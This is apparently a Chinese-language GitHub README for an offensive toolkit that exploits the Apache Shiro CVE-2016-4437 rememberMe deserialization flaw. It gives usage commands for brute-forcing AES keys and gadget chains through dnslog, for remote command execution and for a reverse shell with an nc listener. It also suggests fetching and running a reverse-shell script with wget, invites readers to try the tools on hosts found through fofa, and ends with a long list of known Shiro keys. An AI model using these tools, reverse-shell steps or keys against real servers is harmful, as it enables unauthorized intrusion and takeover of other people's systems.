





## Awesome-shiro

CVE-2016-4437 Shiro&lt;=1.2.4反序列化，爆破模块和key、代码执行、反弹shell的工具

----

## 漏洞原因
因为shiro对cookie里的rememberme字段进行了反序列化，所以如果知道了shiro的编码方式，然后将恶意命令用它的编码方式进行编码并放在http头的cookie里，在shiro对提交的cookie的rememberme字段进行反序列化时，也就执行了插入的命令，最终造成了命令执行

shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：
`得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化 `

## 环境
linux/win10 均可
python2/python3 均可
由于module下有ysoserial.jar 所以项目略大，多多包涵
## 本地搭建靶场
```
docker pull medicean/vulapps:s_shiro_1
docker run -d -p 80:8080 medicean/vulapps:s_shiro_1
```
## 脚本使用
#### 1、shiro_crack.py 爆破模块使用
需要结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do 1695jb.dnslog.cn
```
成功后查看记录-记录格式为 {key}.{{module}}.dnslogurl
```
U3ByaW5nQmxhZGUAAAAAAA.CommonsBeanutils1.x9zm4v.dnslog.cn
```
可知成功的key为`U3ByaW5nQmxhZGUAAAAAAA==`,模块为`CommonsBeanutils1`
因为key中包含==/+等符号，本项目会转义一丢丢。需自行对比附录1的key
fofa上找一个玩玩


##### shiro_crack.py 原理
其实网上有很多爆破模块和key的工具，但是爆破成功后一般只是打通，并不知道模块和key是什么，因为对于无回显的rce，无论通没通，响应码均为200。
本项目通过爆破模块和key结合dnslog间接获取成功的key和模块，原理即为DNSlog的内涵，Dns在解析的时候会留下日志，通过读取多级域名的解析日志，获取请求信。

### 2、shiro_rce.py rce使用
可结合[http://dnslog.cn/](http://dnslog.cn/)
```
python3 shiro_crack.py http://www.baidu.com/login.do "ping rcetest.x9zm4v.dnslog.cn"
```
dnslog查看到`ping rcetest.x9zm4v.dnslog.cn` 为了区分，建议用更低一级的域名
#### shiro_rce 配置
1、配置模块
需要将第13行 
``` popen = subprocess.Popen(['java', '-jar', '../module/ysoserial.jar', 'CommonsBeanutils1', command], stdout=subprocess.PIPE)```其中的CommonsBeanutils1改为爆破成功用的模块
2、配置key
将第16行

 ```
key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==") 
```

改成爆破成功的key
fofa上找一个玩



### 3、shiro_getshell 反弹shell
```
nc -lvnp 7777
python3 shiro_exp.py -u {{攻击的靶机}} -lh {{反弹shell的ip}} -lp {{反弹shell的端口}}
```
为了安全，还是打本地
原理即是把JRMPListener和payload打包丢一起了，其实讲道理可以不用jrmplistener


#### shiro_getshell测试：



---
一点小想法
既然可以出网，为啥不能直接用shiro_rec,`bash反弹shell`嘞
试过几次失败，我感觉是shiro有啥过滤，但是我发现可以先wget下载一个反弹shell的sh脚本，然后sh执行
参考[自己不用jrmplistener反弹shell的一点小研究](https://st4ck.gitee.io/2020/04/24/apache-shiro-1-2-4-fan-xu-lie-hua-lou-dong-cve-2016-4437-fu-xian-yu-dao-de-keng/)

---

### 4、fuzz-shiro
根据请求头，响应头做一个简单的测试

## 常见问题
### 1、win10下运行时出现 No module named 'Crypto'
运行如下命令：
```
pip uninstall crypto pycryptodome
pip install pycryptodome
```
python安装目录下的\Lib\site-packages，将crypto文件夹的名字改成Crypto。

## 附录1、shiro常用key
```
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
```
